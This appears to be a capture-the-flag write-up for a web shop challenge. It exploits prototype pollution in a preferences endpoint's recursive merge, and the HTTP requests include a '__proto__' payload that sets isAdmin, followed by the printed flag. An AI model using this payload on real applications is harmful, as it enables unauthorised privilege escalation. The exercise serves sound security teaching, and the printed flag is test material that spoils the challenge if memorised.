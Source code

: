 # Prototype Paradise - Writeup

## Challenge Description
This challenge presents a simple web shop where users can purchase various items. Each user starts with $100, but the flag costs $1,000,000. The goal is to find a way to buy the flag despite having insufficient funds.

## Discovery & Vulnerability
The initial exploration of the shop reveals that users start with a $100 balance and several items are available for purchase, with the flag costing $1,000,000. Testing the API endpoints shows:
- GET /api/shop - Lists available items
- POST /api/init - Creates new user
- POST /api/purchase - Purchase endpoint
- POST /api/preferences - Interesting endpoint for user preferences

The application is vulnerable to Prototype Pollution through the `/api/preferences` endpoint. The endpoint uses an unsafe recursive merge function that allows modification of the Object prototype. This vulnerability exists because the application uses a vulnerable merge function, checks admin status through object properties, and has no sanitization of the `__proto__` property.

## Exploitation
1. First, initialize a new user:
```http
POST http://localhost:8002/api/init

Response:
{
   "userId": "<your-user-id>",
   "balance": 100
}
```
2. Then exploit prototype pollution:
```http
POST http://localhost:8002/api/preferences
Content-Type: application/json

{
    "userId": "<your-user-id>",
    "preferences": {
        "__proto__": {
            "isAdmin": true
        }
    }
}
```
3. Finally, purchase the flag:
```http
POST http://localhost:8002/api/purchase
Content-Type: application/json

{
    "userId": "<your-user-id>",
    "itemId": 5
}
```
The server returns:
```json
{
    "success": true,
    "message": "Purchase successful",
    "flag": "UiTHack25{Pr0t0typ3_P0llut1on_Expl01t3d!}",
    "balance": 100
}
```